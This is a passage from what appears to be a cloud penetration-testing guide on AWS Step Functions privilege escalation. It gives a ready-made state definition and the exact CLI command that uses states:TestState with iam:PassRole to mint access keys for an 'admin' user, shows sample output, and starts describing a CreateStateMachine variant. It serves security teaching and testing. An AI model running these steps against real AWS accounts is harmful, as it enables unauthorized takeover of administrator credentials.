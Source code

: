 {% code overflow="wrap" %}
```bash
aws states test-state --definition <value> --role-arn <value> [--input <value>] [--inspection-level <value>] [--reveal-secrets | --no-reveal-secrets]
```
{% endcode %}

The following examples show how to test an state that creates an access key for the **`admin`** user leveraging these permissions and a permissive role of the AWS environment. This permissive role should have any high-privileged policy associated with it (for example **`arn:aws:iam::aws:policy/AdministratorAccess`**) that allows the state to perform the **`iam:CreateAccessKey`** action:

* **stateDefinition.json**:

```json
{
  "Type": "Task",
  "Parameters": {
    "UserName": "admin"
  },
  "Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
  "End": true
}
```

* **Command** executed to perform the privesc:

{% code overflow="wrap" %}
```bash
aws stepfunctions test-state --definition file://stateDefinition.json --role-arn arn:aws:iam::<account-id>:role/PermissiveRole

{
  "output": "{
	  \"AccessKey\":{
		  \"AccessKeyId\":\"AKIA1A2B3C4D5E6F7G8H\",
		  \"CreateDate\":\"2024-07-09T16:59:11Z\",
		  \"SecretAccessKey\":\"1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j\",
		  \"Status\":\"Active\",
		  \"UserName\":\"admin\"
	  }
  }",
	"status": "SUCCEEDED"
}
```
{% endcode %}

**Potential Impact**: Unauthorized execution and manipulation of workflows and access to sensitive resources, potentially leading to significant security breaches.

### `states:CreateStateMachine` & `iam:PassRole` & (`states:StartExecution` | `states:StartSyncExecution`)

An attacker with the **`states:CreateStateMachine`**& **`iam:PassRole`** would be able to create an state machine and provide to it any IAM role, enabling unauthorized access to other AWS services with the roles' permissions. In contrast with the previous privesc technique (**`states:TestState`** & **`iam:PassRole`**), this one does not execute by itself, you will also need to have the **`states:StartExecution`** or **`states:StartSyncExecution`** permissions (**`states:StartSyncExecution`** is **not available for standard workflows**, **just to express state machines**) in order to start and execution over the state machine.
